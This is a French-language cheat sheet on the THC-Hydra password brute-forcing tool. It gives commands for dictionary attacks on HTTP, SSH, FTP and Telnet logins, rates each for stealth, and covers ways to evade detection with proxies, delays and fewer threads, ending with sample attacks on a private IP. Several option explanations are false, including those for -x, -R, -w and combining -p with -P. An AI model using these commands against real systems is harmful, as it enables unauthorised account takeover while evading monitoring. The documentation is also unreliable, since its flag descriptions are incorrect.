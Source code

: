 ```yaml
---
layout: default
title: "Hydra"
---
```

#### Introduction

Hydra (ou THC-Hydra) est un outil open-source utilisé pour effectuer des attaques par force brute sur divers protocoles de connexion. Il est capable de tester des millions de combinaisons de mots de passe pour trouver les informations d'authentification correctes.

#### Installation de Hydra

**Sous Debian/Ubuntu**

```bash
sudo apt update
sudo apt install hydra
```

**Sous Windows**

1. **Télécharger Hydra pour Windows** depuis le [site de THC](https://github.com/vanhauser-thc/thc-hydra).
2. **Décompresser le fichier téléchargé** et utiliser les binaires fournis.

#### Commandes de Base

1.  **Lancer une attaque par dictionnaire sur un service HTTP**

    ```bash
    hydra -l <username> -P <password_file> <target> http-get /login
    ```

    * **Explication** : `-l` spécifie un nom d'utilisateur, `-P` indique le fichier contenant les mots de passe, `<target>` est l'adresse IP ou le domaine, et `http-get /login` précise le chemin d'URL où se trouve le formulaire de connexion.
    * **Discrétion** : Faible à moyenne. Les tentatives de connexion peuvent être détectées par des systèmes de surveillance ou des IDS.
2.  **Lancer une attaque par dictionnaire sur un service SSH**

    ```bash
    hydra -l <username> -P <password_file> ssh://<target>
    ```

    * **Explication** : `ssh://<target>` indique que l'attaque cible un service SSH.
    * **Discrétion** : Faible. Les tentatives de connexion SSH peuvent générer des alertes.
3.  **Lancer une attaque par dictionnaire sur un service FTP**

    ```bash
    hydra -l <username> -P <password_file> ftp://<target>
    ```

    * **Explication** : `ftp://<target>` indique que l'attaque cible un service FTP.
    * **Discrétion** : Faible. Les services FTP peuvent détecter les tentatives de connexion répétées.
4.  **Lancer une attaque par dictionnaire avec une liste de noms d'utilisateur**

    ```bash
    hydra -L <user_file> -P <password_file> <target> ssh
    ```

    * **Explication** : `-L` spécifie un fichier contenant plusieurs noms d'utilisateur, tandis que `-P` est le fichier de mots de passe.
    * **Discrétion** : Faible. Les tentatives avec plusieurs noms d'utilisateur peuvent générer plus de trafic réseau.
5.  **Attaque par force brute avec un protocole spécifique (ex: telnet)**

    ```bash
    hydra -L <user_file> -P <password_file> telnet://<target>
    ```

    * **Explication** : Cible un service Telnet avec une liste d'utilisateurs et de mots de passe.
    * **Discrétion** : Faible. Telnet est souvent surveillé pour des tentatives de connexion suspectes.

#### Options Avancées

1.  **Définir un nombre limité de tentatives**

    ```bash
    hydra -l <username> -P <password_file> -t 4 <target> ssh
    ```

    * **Explication** : `-t` définit le nombre de threads simultanés pour les tentatives de connexion. Par exemple, `-t 4` lance quatre threads en parallèle.
    * **Discrétion** : Moyenne à élevée. Moins de threads peuvent réduire le risque d'être détecté par les systèmes de surveillance.
2.  **Utiliser un proxy pour masquer l'origine**

    ```bash
    hydra -l <username> -P <password_file> -e ns <target> ssh -s 22 -x <proxy>
    ```

    * **Explication** : `-x` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy peut rendre l'attaque plus difficile à tracer jusqu'à son origine.
3.  **Limiter le nombre de tentatives par IP**

    ```bash
    hydra -l <username> -P <password_file> -R -e ns <target> ssh
    ```

    * **Explication** : `-R` active la limitation du nombre de tentatives pour éviter d'être bloqué par des mécanismes de défense.
    * **Discrétion** : Moyenne à élevée. Limite le nombre de tentatives pour réduire la détection.
4.  **Ajouter des délais entre les tentatives**

    ```bash
    hydra -l <username> -P <password_file> -w 5 <target> ssh
    ```

    * **Explication** : `-w` définit le délai en secondes entre chaque tentative pour éviter de générer une charge excessive et attirer l'attention.
    * **Discrétion** : Haute. Les délais réduisent le nombre de requêtes envoyées en un temps donné.
5.  **Utiliser une liste de mots de passe alternatifs**

    ```bash
    hydra -l <username> -P <password_file> -p <password> <target> ssh
    ```

    * **Explication** : `-p` permet d'ajouter un mot de passe spécifique en plus de ceux de la liste.
    * **Discrétion** : Moyenne à haute. Tester des mots de passe spécifiques peut augmenter les chances de succès tout en maintenant une discrétion accrue.

#### Exemples de Scénarios

1.  **Attaque sur un service HTTP avec un dictionnaire de mots de passe**

    ```bash
    hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.10/login
    ```

    * **Explication** : Teste les mots de passe dans `/path/to/passwords.txt` pour l'utilisateur `admin` sur le service HTTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les attaques HTTP peuvent être détectées par les systèmes de journalisation des serveurs web.
2.  **Attaque sur un service FTP avec des utilisateurs et des mots de passe**

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ftp://192.168.1.10
    ```

    * **Explication** : Teste toutes les combinaisons d'utilisateurs et de mots de passe pour un service FTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les services FTP sont souvent configurés pour détecter les tentatives de connexion brutales.
3.  **Attaque SSH avec un proxy pour masquer l'origine**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -e ns -x socks5://proxyserver:1080 ssh://192.168.1.10
    ```

    * **Explication** : Utilise un proxy SOCKS5 pour masquer l'origine des tentatives de connexion SSH.
    * **Discrétion** : Haute. L'utilisation d'un proxy ajoute une couche de dissimulation.
4.  **Attaque par dictionnaire avec un délai entre les tentatives**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -w 10 -e ns ssh://192.168.1.10
    ```

    * **Explication** : Ajoute un délai de 10 secondes entre chaque tentative de connexion pour réduire la détection.
    * **Discrétion** : Haute. Les délais peuvent éviter de déclencher des alarmes pour des tentatives de connexion rapide.



